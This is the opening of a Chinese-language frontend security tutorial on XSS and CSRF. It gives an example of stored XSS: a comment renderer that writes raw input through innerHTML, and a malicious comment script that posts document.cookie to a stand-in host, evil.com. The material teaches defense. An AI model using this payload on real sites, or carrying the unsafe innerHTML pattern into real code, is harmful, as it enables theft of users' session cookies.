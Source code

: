 # 前端安全深度解析 🛡️

## 🎯 文档概述

前端安全是Web应用安全的重要组成部分。本文档深入解析常见的前端安全漏洞，包括XSS、CSRF等攻击方式的原理、危害及防御策略，帮助开发者构建更安全的Web应用。

## 📋 目录

1. [XSS（跨站脚本攻击）深度解析](#xss)
2. [CSRF（跨站请求伪造）深度解析](#csrf)
3. [其他重要安全漏洞](#other-vulnerabilities)
4. [安全防御最佳实践](#best-practices)
5. [实战案例分析](#case-studies)
6. [安全检查清单](#security-checklist)

---

## 🚨 XSS（跨站脚本攻击）深度解析 {#xss}

### 什么是XSS攻击？

XSS（Cross-Site Scripting）是一种代码注入攻击，攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。当用户浏览被感染的页面时，嵌入其中的恶意脚本就会被执行。

### XSS攻击分类

#### 1. 存储型XSS（Stored XSS）

**原理**：恶意脚本永久存储在目标服务器上（如数据库、消息论坛、访客留言板等）

**攻击流程**：
```
攻击者 → 提交恶意脚本到服务器 → 服务器存储 → 用户访问页面 → 恶意脚本执行
```

**危险代码示例**：
```javascript
// 用户评论功能 - 存在XSS漏洞
function displayComment(comment) {
  document.getElementById('comments').innerHTML +=
    `<div class="comment">${comment}</div>`;
}

// 攻击者提交的恶意评论
const maliciousComment = `
  <script>
    // 窃取用户Cookie
    fetch('http://evil.com/steal', {
      method: 'POST',
      body: document.cookie
    });
  </script>
`;
```
